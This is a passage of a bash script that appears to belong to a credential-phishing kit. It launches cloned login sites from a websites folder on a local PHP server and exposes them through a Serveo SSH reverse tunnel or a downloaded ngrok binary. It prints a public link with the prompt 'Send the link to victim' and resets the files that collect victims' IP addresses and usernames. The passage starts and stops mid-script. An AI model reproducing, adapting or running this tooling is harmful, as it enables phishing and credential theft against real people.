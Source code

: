 }
start_serveo() {
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m(\e[0m\e[1;96mlocalhost:$port\e[0m\e[1;92m)\e[0m\n"
cd websites/$server && php -S 127.0.0.1:$port > /dev/null 2>&1 &
sleep 2
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Serveo ..\e[0m\n"
if [[ -e linksender ]]; then
rm -rf linksender
fi
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:'$port' serveo.net 2> /dev/null > linksender ' &
printf "\n"
sleep 7
send_url=$(grep -o "https://[0-9a-z]*\.serveo.net" linksender)
printf "\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n' $send_url
printf "\n"
found
}
start_n() {
if [[ -e websites/$server/ip.txt ]]; then
rm -rf websites/$server/ip.txt
fi
if [[ -e websites/$server/usernames.txt ]]; then
rm -rf websites/$server/usernames.txt
fi
if [[ -e ngrok ]]; then
echo ""
else
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m(\e[0m\e[1;96mlocalhost:5555\e[0m\e[1;92m)\e[0m\n"
arch=$(uname -a | grep -o 'arm' | head -n1)
arch2=$(uname -a | grep -o 'Android' | head -n1)
if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
curl -LO https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1
if [[ -e ngrok-stable-linux-arm.zip ]]; then
unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-arm.zip
else
printf " \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;93m Error \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;96m Please Install All Packges.\e[0m\n"
exit 1
fi
else
curl -LO https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf " \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;93m Error \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;96m Please Install All Packges.\e[0m\n"
exit 1
fi
fi
fi
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Ngrok ..\e[0m\n"